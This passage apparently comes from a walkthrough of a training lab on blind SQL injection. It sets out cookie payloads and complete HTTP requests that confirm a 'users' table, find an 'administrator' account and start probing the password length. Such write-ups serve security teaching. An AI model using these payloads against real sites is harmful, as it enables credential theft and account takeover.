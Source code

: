Ensure that the response does not exhibit the "Welcome back" message. This illustrates how you can examine a single boolean condition and deduce the outcome. Then modify it to:

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`

```
GET https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Referer: https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts
Cookie: TrackingId=ttA5PuFVqBx32BKR' AND (SELECT 'a' FROM users LIMIT 1)='a; session=IOnCeWQ4D8oa7OTRWL5c1osLrStRH4CV
Upgrade-Insecure-Requests: 1
Content-Length: 0
Host: acc21f2c1e7c6c578017078200f3009b.web-security-academy.net
```

Verify that the condition is true, which confirms the existence of a table named "users".

![8c2c3d56207129ad15e19a3bea4e0227.png](/img/8c2c3d56207129ad15e19a3bea4e0227.png)

Now change it to: 

`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

```
GET https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Referer: https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts
Cookie: TrackingId=ttA5PuFVqBx32BKR' AND (SELECT 'a' FROM users WHERE username='administrator')='a; session=IOnCeWQ4D8oa7OTRWL5c1osLrStRH4CV
Upgrade-Insecure-Requests: 1
Content-Length: 0
Host: acc21f2c1e7c6c578017078200f3009b.web-security-academy.net
```

Verify that the condition is true, confirming that there is a user called administrator. 

![6259afb90098477d74bb986e753a5e87.png](/img/6259afb90098477d74bb986e753a5e87.png)

To determine the length of the password of the administrator user, modify the value to:

`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`

```
GET https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Referer: https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts
Cookie: TrackingId=ttA5PuFVqBx32BKR' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a; session=IOnCeWQ4D8oa7OTRWL5c1osLrStRH4CV
Upgrade-Insecure-Requests: 1
Content-Length: 0
Host: acc21f2c1e7c6c578017078200f3009b.web-security-academy.net
```
